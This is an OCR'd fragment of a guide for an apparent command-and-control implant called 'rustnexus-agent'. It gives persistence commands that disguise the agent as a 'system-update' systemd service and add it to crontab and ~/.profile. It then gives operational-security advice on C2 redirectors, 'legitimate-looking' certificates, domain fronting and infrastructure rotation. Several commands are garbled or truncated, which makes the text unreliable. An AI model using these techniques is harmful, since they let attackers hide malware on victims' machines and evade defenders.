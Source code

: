 ```
[Service]
ExecStart=/path/to/rustnexus-agent
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
EOL

sudo systemctl enable system-update
sudo systemctl start system-update

# Crontab
(crontab -l 2>/dev/null; echo "@reboot /path/to/rustnexus-agent") | crontab -

# RC Scripts
echo "/path/to/rustnexus-agent &" >> ~/.profile
```

## Operational Security

### Server Hardening

1. **Use a Redirector**

Set up a redirector server to

```bash
# Using socat as a TCP redirector
socat TCP-LISTEN:-c2-server:4444
```

2. **TLS Encryption**

Generate legitimate-looking certificates:

```bash
# Generate self-signed certificate
openssl req -x509 -newkey rsa:4096 -keyout key.pem -outnodes

# Or use Let's Encrypt for valid certificates
certbot certonly --standalone -d your-domain.com
```

3. **Domain Fronting Setup**

Use a CDN like Cloudflare or Amazon CloudFront to set up domain fronting.

### Network Security

1. **Rotate Infrastructure**

Regularly change
- Domain names
- Communication ports

